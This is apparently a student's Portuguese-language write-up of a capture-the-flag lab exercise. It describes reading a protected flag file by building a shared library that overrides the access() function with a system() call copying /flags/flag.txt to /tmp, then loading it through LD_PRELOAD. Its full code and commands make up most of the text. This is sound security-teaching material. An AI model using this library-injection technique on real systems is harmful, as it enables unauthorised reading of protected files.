 
# CTF 2 - Semana 4
## Análise 
Ao entrar em ctf-fsi.fe.up.pt 4006 ,analisamos o que estava no diretório inicial: /home/flag_reader, em que no admin_note.txt diz-nos que a flag foi acedida e roubada por hackers em /tmp e ao analisar main.c percebemos que a flag está no diretório /flags/flag.txt em que não conseguimos aceder a /flags

## Procedimento
Começamos por criar um programa new.c em /tmp e adicionamos-lo a uma libraria new.so ao usar os seguintes comandos :

```shell
touch new.c
cat > novo.c  
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

    int access(const char * str, int mode){
        system("/bin/cat /flags/flag.txt > /tmp/flag.txt");
    return 0;
}
```

Aqui disconectamos da ligaçao ao servidor guardando o ficheiro new.c e voltamos a conectar 


```shell
cd /tmp
touch new.so
gcc -shared -o new.so -fPIC new.c
```

A funçao access vai usar o comando cat que vai ler o conteudo de /flags/flag.txt e vai redirecionar o output para /tmp/flag.txt

De seguida criamos o ficheiro que vai conter a flag e alteramos as suas permissoes para escrever,ler e ser executado:

```shell
touch /tmp/flag.txt
chmod 777 /tmp/flag.txt
```

Por ultimo mudamos a environment variable LD_PRELOAD para o path /tmp/new.so 

```shell
echo "LD_PRELOAD=/tmp/new.so" > env
```
Assim sempre que correr um programa que use a funçao access (usada para ver se o ficheiro existe) vai correr a funçao access em new.c em vez de verificar se um ficheiro existe

Finalmente conseguimos ler a flag usando :

```shell
cat /tmp/flag.txt 
```

